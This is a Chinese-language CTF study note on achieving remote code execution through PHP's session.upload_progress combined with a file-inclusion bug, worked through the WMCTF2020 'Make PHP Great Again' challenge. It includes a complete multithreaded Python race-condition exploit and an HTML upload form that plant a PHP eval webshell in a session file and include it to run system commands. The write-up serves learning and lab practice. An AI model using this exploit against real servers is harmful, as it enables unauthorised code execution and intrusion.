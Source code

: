 ## session.upload_progress文件包含漏洞

### 前言

之前学习了该漏洞，但是没有做笔记，导致容易遗忘。在此用一个题目来理解`session.upload_progress`漏洞



### 基础知识

#### session存储

我们在phpinfo可以看到session的存储路径：

![image-20230601203121482](https://s2.loli.net/2023/06/01/WlKLS3Egwzxurjs.png)

以下是一些session在linux的默认存储路径

```php
/var/lib/php/sess_PHPSESSID
/var/lib/php/sessions/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
```

session文件的文件名一般是通过：`sess_` 加上`PHPSESSID`字段  



#### 什么是session.upload_progress

以下是`session.upload_progress`比较重要的几个选项：

```php
session.upload_progress.enabled = on
session.upload_progress.cleanup = on
session.upload_progress.prefix = "upload_progress_"
session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
```

- session.upload_progress.enabled可以控制是否开启session.upload_progress功能
- session.upload_progress.cleanup可以控制是否在上传之后删除文件内容
- session.upload_progress.prefix可以设置上传文件内容中的前缀
- session.upload_progress.name的值即为session中的键值

`session.auto_start`：如果开启这个选项，则PHP在接收请求的时候会**自动初始化Session**，不再需要执行session_start()。但默认情况下，也是通常情况下，这个选项都是**默认关闭**的。

`session.upload_progress.cleanup = on`：表示当文件上传结束后，php将会立即清空对应session文件中的内容。该选项**默认开启**

`session.use_strict_mode`：默认情况下，该选项的值是0，此时用户可以自己定义Session ID





### session.upload_progress开启后有什么效果

> 当我们将`session.upload_progress.enabled`的值设置为**on**时，此时我们再往服务器中上传一个文件时，PHP会把该文件的详细信息(如上传时间、上传进度等)存储在session当中。

**问题1：**

那么这个时候就会有一个前提条件，就是如何初始化session并且把session中的内容写到文件中去呢？

**分析1：**

我们可以注意到，php.ini中`session.use_strict_mode`选项默认是0，在这个情况下，用户可以自己定义自己的sessionid，例如当用户在cookie中设置`PHPSESSID=leekos`时，PHP就会生成一个文件`/tmp/sess_leekos`，此时也就初始化了session，并且会将上传的文件信息写入到文件`/tmp/sess_leekos`中去，具体文件的内容是什么，后面会写到。

**问题2：**

当session.upload_progress.cleanup的值为on时，即使上传文件，但是上传完成之后文件内容会被清空，这怎么办？

**分析2：**

利用Python的多线程，进行**条件竞争**。

> 当一个网站存在文件包含漏洞，但是并没有用户会话。即代码层未输入`session_start()`。
> 可借助Session Upload Progress，因为session.upload_progress.name 是用户自定义的，POST提交PHP_SESSION_UPLOAD_PROGRESS字段，只要上传包里带上这个键，PHP就会自动启用Session。同时在Cookie中设置PHPSESSID的值。这样，请求的文件内容和命名都可控。
>
> 当文件上传结束后，php会立即清空对应session文件中的内容，这会导致我们包含的很可能只是一个空文件，所以我们要利用条件竞争，在session文件被清除之前利用。



### 如何使用session.upload_progress进行RCE？

当一个网站存在文件包含漏洞时，我们可以尝试通过`session.upload_progress` 向服务器写入session文件，文件内容为一句话木马，然后配合文件包含漏洞包含进来，然后getshell

但是如果选项：`session.upload_progress.cleanup=on`那么文件一上传上去就会被删除，所以我们需要利用条件竞争

有两种方式：

- 1、使用python脚本
- 2、使用burpsuite

首先我们结合一道例题来讲解：

#### [WMCTF2020]Make PHP Great Again

```php
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

此处存在文件包含漏洞，由于使用了 `require_once()`所以我们不能再次包含flag.php

这里可以使用 `session.upload_progress` 进行rce

##### 使用python脚本：

```php
import io
import threading
import requests

url = "http://40c7dd6c-b2cb-4356-820b-cd6ba4f81596.node4.buuoj.cn:81/"
sessid = 'leekos'

def write(session):

    filebytes = io.BytesIO(b'a'*1024*50)
    while True:
        session.post(url=url,data = {
            'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST[1]);?>'
        },cookies={
            'PHPSESSID':sessid
        },files={
            'file': ('leekos.jpg',filebytes)
        })


def read(session):

    while True:
        res1 = session.post(url=url + r'?file=/tmp/sess_' + sessid, data={
            '1': r"system('tac flag.php');"
        })
        if 'leekos' in res1.text:
            print(res1.text)
        else:
            print("retry~~~~")


if __name__ == '__main__':
    with requests.session() as session:
        for i in range(20):
            threading.Thread(target=write,args=(session,)).start()
        for i in range(20):
            threading.Thread(target=read,args=(session,)).start()
```

这段代码的逻辑其实不难，得好好补一补python

首先我们创建一个 `session`对象，用来发送http请求

然后使用python中多线程 `threading.Thread()` 创建多线程并启动然后调用 write、read

- write()函数逻辑：首先使用`io.BytesIO(b'a'*1024*50)`创建一段50kB大小的文件，然后发送post包，url为域名，data的键名传入：`PHP_SESSION_UPLOAD_PROGRESS` 值传入一句话木马，然后cookie控制`PHSESSID`的值为leekos，files传入刚创建的文件。这样就会在服务器 `/tmp`目录创建一个文件名为：`sess_leekos`的文件，并且内容包含一句话木马
- read()函数逻辑，去读 `/tmp/sess_leekos`文件的值，并且data中传入代码获取flag。由于session文件的内容中包含我们上传的文件的名称（此时为：leekos.jpg）如果读取出来的结果包含leekos，说明之前的session上传成功了，于是我们打印出页面的值，其中一定包含flag

使用多线程不断的竞争，一段时间后就会得到flag

![image-20230601210701486](https://s2.loli.net/2023/06/01/xLnHMGSRYuaJ59f.png)



##### 使用html+bp

写一个html

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <form action="http://40c7dd6c-b2cb-4356-820b-cd6ba4f81596.node4.buuoj.cn:81/" method="post" enctype="multipart/form-data">
        <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="<?php eval($_POST[1]);?>">
        <input type="file" name="file">
        <input type="submit" name="submit">
    </form>
</body>
</html>
```

上传文件，抓包，修改`cookie:PHPSESSID=leekos`

![image-20230601212928962](https://s2.loli.net/2023/06/01/JjLhp7enokFA84f.png)

然后使用另一个请求包含：

![image-20230601212949130](https://s2.loli.net/2023/06/01/jLzxiv4u6Id7cnw.png)

两个请求使用 `Intruder`模块竞争：

![image-20230601213038646](https://s2.loli.net/2023/06/01/1Yej2HK8TtqoANn.png)

这样就成功了





